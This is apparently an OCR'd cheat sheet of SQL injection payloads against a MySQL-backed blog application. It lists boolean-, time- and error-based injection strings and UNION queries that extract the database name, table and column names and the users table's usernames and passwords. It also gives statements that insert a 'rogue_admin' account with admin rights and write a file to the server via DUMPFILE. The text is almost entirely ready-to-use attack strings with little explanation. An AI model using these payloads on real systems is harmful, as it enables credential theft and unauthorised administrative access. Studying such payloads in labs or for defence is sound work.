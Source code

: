 # CRUD Operations

1. Create rogue admin: `INSERT INTO users (username, password, is_admin) VALUES ('rogue_admin', MD5("RoguePass123"), TRUE);`

2. Delete rogue admin: `DELETE FROM users WHERE username = 'rogue_admin';`

# Filesystem operations

1. View the current user: `SELECT current_user;`
   
2. Check for the `secure_file_priv` setting: `SHOW VARIABLES LIKE 'secure_file_priv';`

3. Trying to create a file: `SELECT 'test123' INTO DUMPFILE '/var/lib/mysql-files/test.txt';`

# SQL Queries

1. Boolean-based: `' OR (SELECT SUBSTRING(username, 1, 1) FROM users WHERE username = 'blogpage_admin') = 'a' %23`

2. Time-based: `' OR IF(SUBSTRING((SELECT username FROM users WHERE username = 'blogpage_admin'), 1, 1) = 'b', SLEEP(1), 0) %23`

3. Error-based: `' union select null, null, null, null, null %23`

# Exploit(error-based)

1. Retrieve user: `' UNION SELECT NULL, user(), NULL, NULL, NULL %23`

2. Retrieve database name: `' UNION SELECT NULL, database(), NULL, NULL, NULL %23`

3. Retrieve tables names: `' UNION SELECT NULL, table_name, NULL, NULL, NULL from information_schema.tables %23`

4. Dumping columns from users table: ` UNION SELECT NULL, column_name, NULL, NULL, NULL from information_schema.columns where table_name = "users" %23`

5. Dumping users table: `' UNION SELECT NULL, username, password, NULL, NULL from users %23`


